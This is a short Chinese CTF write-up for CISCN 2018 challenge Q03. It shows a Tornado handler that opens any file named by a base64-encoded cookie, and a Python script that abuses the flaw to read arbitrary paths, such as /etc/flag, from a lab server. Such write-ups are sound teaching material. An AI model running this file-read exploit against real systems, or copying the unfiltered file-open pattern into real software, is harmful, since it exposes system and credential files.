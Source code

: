 ```yaml
---
title: 'CISCN 2018 华中赛区 Q03 题解'
date: 2018-06-06 19:37:45
tags:
   - CTF
   - WEB
categories:
    - 'Write Up'
---
```


## 第一步：发现Cookie的漏洞：任意文件读取：

```python
import tornado.web
import base64


class CaptchaHandler(tornado.web.RequestHandler):
    def get(self, *args, **kwargs):
        file = open(self.application.jpgs_path + '/%s' % base64.b64decode(self.get_cookie('uuid')),'r')
        print '-'*30
        print self.get_cookie('uuid')
        self.write(file.read())
        file.close()
        self.set_header('Content-Type', 'image/jpeg')
```

在这个文件中的cookie中获取UUID并读取文件，并没有对日志目录进行过滤，所以这个地方造成了任意文件读取

<!--more-->

## 第二步：猜测Flag地址

因为把整个源码Dump下来了，数据库和源码中都没有Flag的位置提示，后面侥幸猜测到了地址`/etc/flag`

```python
import sys
import requests as req


url = 'http://172.16.9.13/captcha'

def read(path):
    
    sess=req.session()
    req.utils.add_dict_to_cookiejar(sess.cookies,{
        '_xsrf':'2|3e46911e|fabaf272f3f5acc81e80c3f2cbf64696|1527907652',
        'uuid':'"'+path.encode('base64').strip()+'"'
    }) 
    res=sess.get(url)
    return res.text

if __name__ == '__main__':
    file= sys.argv[1]
    print read(file)
```